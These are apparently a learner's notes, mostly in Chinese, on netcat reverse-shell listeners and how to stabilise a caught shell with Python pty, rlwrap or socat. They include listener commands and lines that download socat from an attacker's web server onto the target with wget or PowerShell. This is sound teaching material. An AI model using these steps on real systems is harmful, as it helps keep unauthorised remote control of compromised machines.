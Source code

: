 Reverse shell listen:
nc -nlvp \[PORT]
	 -l 用于告诉 netcat 这将是一个侦听器
    -v 用于请求详细输出
    -n 告诉 netcat 不要解析主机名或使用 DNS。
    -p 表示将遵循端口规范。
Netcat Shell Stabilisation：
```
默认情况下，这些 shell 非常不稳定。按 Ctrl + C 会杀死整个事情。它们是非交互式的，并且经常有奇怪的格式错误。这是因为 netcat 的“shell”实际上是在终端内运行的进程，而不是真正的终端。幸运的是，有很多方法可以稳定 Linux 系统上的 netcat shell。我们将在这里看三个。Windows 反向 shell 的稳定性往往要困难得多;但是，我们将在这里介绍的第二种技术对它特别有用。
```
 _技术 1：Python_
	\1. 首先要做的是使用 `python -c 'import pty;pty.spawn("/bin/bash")'` ，它使用 Python 生成功能更好的 bash shell;请注意，某些目标可能需要指定的 Python 版本。如果是这种情况，请根据需要将 `python` 替换为 `python2` 或 `python3` 。在这一点上，我们的 shell 看起来会更漂亮一些，但我们仍然无法使用 tab 自动完成或箭头键，并且 Ctrl + C 仍然会杀死 shell。
	2.第二步是： `export TERM=xterm` -- 这将使我们能够访问术语命令，例如 `clear` 。
	3.最后（也是最重要的）我们将使用 Ctrl + Z 对 shell 进行背景处理。回到我们自己的终端中，我们使用 `stty raw -echo; fg` 。这做了两件事：首先，它关闭了我们自己的终端回显（它使我们能够访问 Tab 自动完成、箭头键和 Ctrl + C 来终止进程）。然后，它使shell成为前景，从而完成该过程。
	![[Pasted image 20231208172838.png]]
	请注意，如果 shell died，您自己的终端中的任何输入都将不可见（由于禁用了终端回显）。若要解决此问题，请键入 `reset` 并按 Enter。
_技术 2：rlwrap_
	rlwrap是一个程序，简单来说，它使我们能够在收到 shell 后立即访问历史记录、Tab 自动完成和箭头键;但是，如果您希望能够在 shell 内使用 Ctrl + C，仍必须使用一些手动稳定功能。默认情况下，Kali 上未安装 rlwrap，因此请先使用 `sudo apt install rlwrap` 安装它。
	为了使用 rlwrap，我们调用了一个稍微不同的侦听器：
	`rlwrap nc -lvnp <port>`
	在 netcat 监听器前面加上 “rlwrap” 为我们提供了一个功能更全面的 shell。这种技术在处理 Windows shell 时特别有用，否则很难稳定。在处理 Linux 目标时，可以使用与上一种技术的第三步相同的技巧来完全稳定：使用 Ctrl + Z 使 shell 进入后台，然后使用 `stty raw -echo; fg` 稳定并重新进入 shell。
_技术3：socat
	稳定 shell 的第三种简单方法是使用初始 netcat shell 作为进入功能更全面的 socat shell 的垫脚石。请记住，此技术仅限于 Linux 目标，因为 Windows 上的 Socat shell 不会比 netcat shell 更稳定。为了实现这种稳定方法，我们首先将 socat 静态编译的二进制文件（编译为没有依赖关系的程序版本）传输到目标机器。实现此目的的典型方法是在攻击计算机上包含 socat 二进制文件 （ `sudo python3 -m http.server 80` ） 的目录中使用 Web 服务器，然后在目标计算机上使用 netcat shell 下载文件。在Linux上，这将通过curl或wget（ `wget <LOCAL-IP>/socat -O /tmp/socat` ）完成。
	-----------------------------------------
	为了完整起见：在Windows CLI环境中，可以使用Invoke-WebRequest或webrequest系统类使用Powershell完成相同的操作，具体取决于安装的Powershell版本（ `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe` ）。在即将到来的任务中，我们将介绍使用 Socat 发送和接收 shell 的语法。
使用上述任何一种技术，能够更改终端 tty 大小都很有用。这是您的终端在使用常规 shell 时会自动执行的操作;但是，如果要使用覆盖屏幕上所有内容的文本编辑器之类的东西，则必须在反向或绑定 shell 中手动完成。
首先，打开另一个终端并运行 `stty -a` 。这将为您提供大量输出。记下“rows”和 columns 的值：
![[Pasted image 20231208173926.png]]
接下来，在反向/绑定 shell 中，键入：
`stty rows <number>`  
and 和
`stty cols <number>`
填写您在自己的终端中运行命令后获得的数字。这将改变终端的注册宽度和高度，从而允许依赖此类信息准确的文本编辑器等程序正确打开。
